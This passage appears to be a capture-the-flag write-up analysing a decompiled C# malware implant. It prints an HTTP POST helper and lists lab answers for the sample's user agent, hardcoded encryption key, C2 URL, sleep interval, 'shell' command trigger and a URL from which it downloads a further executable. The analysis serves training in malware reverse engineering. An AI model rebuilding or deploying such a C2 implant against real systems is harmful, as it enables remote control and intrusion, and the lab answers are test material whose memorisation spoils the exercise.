                   // Token: 0x06000008 RID: 8 RVA: 0x000024B4 File Offset: 0x000006B4
                  public static string PostIt(string url, string data)
                  {
                     HttpWebRequest httpWebRequest = (HttpWebRequest)WebRequest.Create(url);
                     byte[] bytes = Encoding.ASCII.GetBytes(data);
                     httpWebRequest.Method = "POST";
                     httpWebRequest.ContentType = "application/x-www-form-urlencoded";
                     httpWebRequest.ContentLength = (long)bytes.Length;
                     httpWebRequest.UserAgent = "Mozilla/5.0 (Macintosh; Intel Mac OS X 14_0) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.0 Safari/605.1.15";
                     using (Stream requestStream = httpWebRequest.GetRequestStream())
                     {
                        requestStream.Write(bytes, 0, bytes.Length);
                     }
                     return new StreamReader(((HttpWebResponse)httpWebRequest.GetResponse()).GetResponseStream()).ReadToEnd();
                  }
               }
            }
         ```

         1. In here we see several important pieces
5. CODE REVIEW
   1. GetIT() function
      1. In here we see:
         1. httpWebRequest.UserAgent = "Mozilla/5.0 (Macintosh; Intel Mac OS X 14_0) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.0 Safari/605.1.15"
            1. So UserAgent is `Mozilla/5.0 (Macintosh; Intel Mac OS X 14_0) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.0 Safari/605.1.15`
   2. PostIt() function
      1. In here we see:
         1. httpWebRequest.Method = "POST";
            1. So HTTP method is `POST`
   3. Encryptor() function
      1. In here we see:
         1. byte[] bytes = Encoding.ASCII.GetBytes("youcanthackthissupersecurec2keys");
            1. So key is `youcanthackthissupersecurec2keys`
   4. Main() function
      1. In here we see:
         1. string str = "http://mcgreedysecretc2.thm";
         2. string url = str + "/reg";
            1. So the full url: `http://mcgreedysecretc2.thm/reg`
   5. Sleeper() function
      1. In here we see:
         1. Thread.Sleep(count);
         2. int count = 15000;
            1. So the sleep is for `15` seconds
   6. Main() function
      1. In here we see the ExecuteCommand() function called **IF** `(!(a == "shell"))`
         1. So the C2 command is `shell`
   7. Main() function
      1. In here we see:
         1. string text2 = Program.Implant("http://stash.mcgreedy.thm/spykit.exe");
         2. This looks to be the domain `stash.mcgreedy.thm` to download the spykit.exe
